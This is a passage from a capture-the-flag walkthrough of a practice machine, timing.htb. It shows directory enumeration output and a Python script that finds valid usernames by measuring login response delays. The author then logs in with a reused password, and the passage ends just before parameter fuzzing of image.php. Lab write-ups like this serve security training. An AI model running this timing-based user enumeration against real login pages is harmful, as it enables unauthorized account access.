 ```      
[+] Timeout:                 10s
===============================================================
2022/06/09 03:53:16 Starting gobuster in directory enumeration mode
===============================================================
/profile.php          (Status: 302) [Size: 0] [--> ./login.php]
/images               (Status: 301) [Size: 309] [--> http://timing.htb/images/]
/image.php            (Status: 200) [Size: 0]                 
/header.php           (Status: 302) [Size: 0] [--> ./login.php]  
/index.php            (Status: 302) [Size: 0] [--> ./login.php]  
/footer.php           (Status: 200) [Size: 3937]                 
/upload.php           (Status: 302) [Size: 0] [--> ./login.php] 
/login.php            (Status: 200) [Size: 5609]  
/css                  (Status: 301) [Size: 306] [--> http://timing.htb/css/]   
/js                   (Status: 301) [Size: 305] [--> http://timing.htb/js/]    
/logout.php           (Status: 302) [Size: 0] [--> ./login.php]                                   
===============================================================
2022/06/09 03:53:29 Finished
===============================================================
```
By the looks of it, many redirect back to the logon because it probably requires authenitcations to hit those pages with the exception of images.

From here we have 2 routes: Brute force users or exploit images.

When playing around with the login form, its worth noting that there is a delay between real users and fake users. Ex: admin has a response time of over 1 second and sadf returns istantly. A python script can be made to test this.

Here's my script:
```python
import requests

url = 'http://timing.htb/login.php?login=true'
with open('/usr/share/seclists/Usernames/xato-net-10-million-usernames.txt') as wordlist:
        for line in wordlist:
                response = requests.post(url, data={"user":line.rstrip(),"password":"lmao"}, timeout=2000)
                if response.elapsed.total_seconds() > 1:
                        print(response.elapsed.total_seconds(), line.rstrip())
```

Output:
```console                                         
1.271603 admin      
1.267196 aaron
```

Luckily aaron has a reused password, their own username.

![](https://i.imgur.com/OqmwTIW.png)

Nothing much of interest. 

Here is the way to exploit the images. We have an image.php which might take parameters. Lets fuzz for them.
